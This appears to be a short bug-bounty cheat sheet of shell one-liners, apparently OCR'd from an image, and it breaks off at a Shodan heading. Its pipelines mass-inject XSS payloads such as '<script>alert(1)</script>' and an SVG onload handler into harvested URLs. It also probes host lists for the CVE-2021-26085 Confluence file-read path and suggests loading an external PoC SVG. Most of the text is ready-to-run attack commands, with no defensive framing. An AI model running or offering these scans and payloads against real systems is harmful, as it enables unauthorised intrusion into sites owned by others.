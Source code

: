```



```

cat hosts.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)"

```



```

waybackurls [http://testphp.vulnweb.com](https://t.co/94lROe3O9p) | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'

```



```

add http://brutelogic.com.br/poc.svg to the end of any endpoint

```



```

Change Content-type to image/svg-xml and add your payload

```



```

waybackurls target.com | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```



Find File read (CVE-2021-26085):

```

cat hosts | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200

```





Find Jenkins Instance with Shodan:

```
